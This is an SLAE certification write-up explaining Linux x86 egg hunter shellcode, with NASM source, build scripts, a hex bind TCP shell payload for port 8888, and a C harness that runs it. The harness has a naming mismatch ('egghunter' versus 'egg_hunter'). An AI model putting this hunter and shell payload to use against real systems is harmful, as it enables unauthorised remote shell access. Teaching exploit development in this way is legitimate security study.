





# Assignment #3 - Egg Hunter Shellcode 

**Exercise description:** Creating a working demo of the *egg hunting* technique. The *egg hunter* must allow to execute different payloads.

**Code:** The code used within this article can be found [here](https://github.com/SDugo/sdugo.github.io/tree/master/SLAE/Assignment_3/Code)

To complete this task the following system was used:
###### `Linux 3.11.0-15-generic #25~precise1-Ubuntu SMP i686 i386 GNU/Linux`

This article will summarize what is an *egg hunter* shellcode and how to implement it.

First of all, there are multiple articles that cover *egg hunters*:

* [Safely Searching Process Virtual Address Space - by skape](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf)
* [Egg Hunters - by FuzzySecurity](http://www.fuzzysecurity.com/tutorials/expDev/4.html)
* [Egg Hunter - by Ashfaq Ansari](https://www.exploit-db.com/docs/english/18482-egg-hunter---a-twist-in-buffer-overflow.pdf)

Although some cases only cover Windows scenarios, the idea is clearly explained and a great resource to fully understand the capabilities of using *egg hunters* on exploiting.

## What is an Egg Hunter?

An *egg hunter* is a piece of code that can be used to locate a specific piece of code during an [execution of a computer program](https://manybutfinite.com/post/anatomy-of-a-program-in-memory/). This *specific piece of code* could be anything, but for exploiting purposes will be the actual exploit (i.e. Reverse TCP Shell).

## When is useful an Egg Hunter?

On exploiting, the main utility of an *egg hunter* is to satisfy the following scenario:

1. There is a vulnerability that allows you to insert malicious code on program's memory space and control the flow execution of the program
2. However, the buffer overflow found contains size restrictions that does not allow you to insert a full exploit *directly* on it 
3. But, it is possible to include the malicious shellcode on an indetermined/non-contiguous memory space

In this scenario, it would be very interesting to have the ability to locate the malicious shellcode with a small piece of code. And that is what an *egg hunter* can do for you.

## How is possible to create an Egg Hunter?

### Main parts of the Egg Hunter

There are two main parts that need to be known to generate an *egg hunter*:

1. The *tag/key* to use.
2. The *syscall* used for reading the process' Virtual Address Space (VAS).

#### Tag on Egg Hunter shellcode
A tag on an *egg hunter* shellcode is a 4 bytes unique hexadecimal string that acts as key, and will be used by the *egg hunter* to identify the start of the malicious shellcode.

To convert an ASCII string (**4 bytes**) to hexadecimal, is possible to use the command: **echo -n TAG_TO_CREATE|hexdump -C| head -n1 | cut -d' ' -f3-6 | sed -e 's/ /\\x/g' | sed 's/^/\\x/g'**



``Parsing a string to hexadecimal``

"F34r (\x46\x33\x34\x72)" will be used as the tag for this example.

#### Syscall for Egg Hunting
Every operating system has its own syscalls, but the most important aspects to choose a valid syscall are the following:

1. The syscall will perform a *read-only* task, to avoid writing on memory
2. Usually, the syscall should take the less arguments possible to minimize the shellcode size and simplify the writing process

For Linux 32-bits systems a good choice is the function *chdir(const char \*path)*.



``sys_chdir structure``

It is important to know what error number will return the function in case of trying to reach outside the accessible address space. The following C code could help with this task.

````
#include <stdio.h>
#include <errno.h>
#include <string.h>

extern int errno ;

int main () {

   int errnum;
   int pf = chdir(0x0001234);

   if (pf != 0) {
      errnum = errno;
      fprintf(stderr, "Value of errno: %d\n", errno);
      perror("Error printed by perror");
      fprintf(stderr, "Error opening file: %s\n", strerror( errnum ));
   }
   return 0;
}
````
``test_chdir.c``

Changing the value of the *filename variable on chdir() would allow to observe the error number for the different cases that could happen. And it is possible to conclude that chdir() will return **14** in case of *bad address* or *address not reachable*.

But, what is the representation of this error number on hexadecimal? For this, it is necessary to use the *[two's complement method](https://www.cs.cornell.edu/~tomf/notes/cps104/twoscomp.html)*, which will reveal that the number we are looking for is **0xF2**.




``Two's complement method summary``

### The code

Now that main parts of the *egg hunter* have been defined, the details about the *egg hunter* will be placed on the code section and a summary explanation will follow it.

````
; Filename:     egg_hunter.nasm
; Author:       Samuel Dugo
; SLAE-ID:      SLAE-1376
; Size:         35 bytes
; Purpose:      Assignment #3. This code creates an egg hunter using the tag "F34r".

global _start

section .text
_start:
        xor edx,edx             ;cleans the pointer of addresses to be inspected
pagination:
        or dx,0xfff             ;page alignment instruction
                                ;In case of invalid page, it goes directly to the next one
inc_addr:
        inc edx                 ;moves up the PAGE_SIZE value (starts at fff+1 = 0x1000)
                                ;used to go over valid addresses on every valid page

        lea ebx,[edx+0x4]       ;loads the value of edx+0x4 on ebx.
                                ;This technique helps to evaluate 8 bytes every time.
                                ;The EggHunter compares the last 4 bytes first, and if there is a
                                ;coincidence, scasd will automatically reduce edi by 4, so
                                ;the first 4 bytes will be also compared.
        push byte 0x0c
        pop eax                 ;sets syscall as sys_chdir
        int 0x80                ;executes chdir(ebx)
        cmp al,0xf2             ;checks if the function returned an EFAULT error
        jz pagination           ;if EFAULT was set, the memory address space cannot be accessed
        mov eax,0x46333472      ;else, load the egg hunter tag "F34r" on eax
        mov edi,ebx             ;loads the current memory address searched (last 4 bytes) on edi

        scasd                   ;checks if the address (last 4 bytes) matches the egg hunter tag
        jnz inc_addr            ;if not, continue on next address
        scasd                   ;else, reduce edi by 4 and check if the address (first 4 bytes)
                                ;matches the egg hunter as well
        jnz inc_addr            ;if not, continue on next 8 bytes

        jmp edi                 ;if the egg hunter is found, jumps onto
                                ;the address and execute the shellcode
````
``Code for Egg Hunter (35 bytes)``

It would be possible to reduce the size of the code from 35 bytes to 34 bytes, but this would require to slow down the speed of the *egg hunter*. The solution would be to change the line 18 to **lea ebx,[edx]**.

## Executing the Code
To compile the NASM file with the egg hunter code, the following bash script is used.

````
#!/bin/bash
#Example of execution: ./compile.sh egg_hunter

echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -z execstack -o $1 $1.o

echo '[+] Done!'
````
``compile.sh``

Then it is necessary to obtain the shellcode of the program using the following command: ``objdump -d ./egg_hunter|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'``

After that, it is necesary to repeat the process with the desired payload to execute. In this case, the *bind TCP shellcode* will be used: 
````
"\x99\x52\x6a\x01\x5b\x53\x6a\x02\x6a\x66\x58\x89\xe1\xcd\x80\x43\x52\x66\xbe\x22\xb8\x56\x66\x53\x89\xe1\x6a\x10\x51\x50\x89\xe1\x5f\xb0\x66\xcd\x80\x43\x43\x52\x52\x57\x89\xe1\xb0\x66\xcd\x80\x43\xb0\x66\xcd\x80\x89\xc3\x31\xc9\xb1\x03\x49\xb0\x3f\xcd\x80\x75\xf9\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
````
``Shellcode for Bind TCP Shell on port 8888``

Using this information, it is possible to generate a PoC on C language.

````
#include <stdio.h>
#include <string.h>

unsigned char egg_hunter[] =  
"EGG_HUNTER_SHELLCODE";

unsigned char shellcode[] = 
"\x72\x34\x33\x46\x72\x34\x33\x46" //F34rF34r
"PAYLOAD_DESIRED";

int main(void)
{
    printf("Egghunter length: %d\n", strlen(egg_hunter));
    printf("Shellcode length: %d\n", strlen(shellcode));
    (*(void(*)(void))egghunter)();
    return 0;
}
````
``shellcode.c``

To compile this C code, the following bash script could be executed including the name of the C file (without extension):

````
#!/bin/bash
#Example of execution ./compile_shellcode.sh shellcode

echo '[+] Compiling without stack protector and execstack ... '
gcc -fno-stack-protector -z execstack $1.c -o $1
echo '[+] Done!'
````
``compile_shellcode.sh``

Finally, it is possible to execute the PoC and connect to port 8888 to receive a bind TCP shell.



``Shellcode execution``

---

*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:*

*https://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/*

*Student ID: SLAE-1376*
